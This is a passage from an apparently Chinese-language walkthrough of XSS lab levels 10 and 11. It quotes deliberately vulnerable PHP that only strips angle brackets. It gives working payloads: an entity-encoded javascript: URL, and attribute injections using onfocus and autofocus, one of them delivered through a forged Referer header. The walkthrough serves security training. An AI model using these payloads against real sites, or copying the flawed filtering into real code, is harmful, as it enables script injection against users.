 过滤和上一关一样,但判断是否有 `http://`

测试 `javascript:alert("http://")`,将其实体编码,构造 `javasc&#114;ipt:alert(&#34;http://&#34;)`

---

# level 10

```php
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
```
```php
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.$str33.'" type="hidden">
</form>
</center>';
```

页面中存在3个隐藏的 input 输入框,其中 t_sort 是传参的,直接在前端修改代码让他显示出来,输入 payload,构造一个 input 的 xss: `<input value=xss onfocus=alert(1) autofocus>`

payload: `test"onfocus=alert(1) autofocus type="text"`

---

# level 11

```php
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
```
```php
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ref"  value="'.$str33.'" type="hidden">
</form>
</center>';
```

这里的 t_ref 的 value 是我们访问这个网页的 referer 值,直接抓包修改 referer

payload: `referer:test"onfocus=alert(1) autofocus type="text"`

---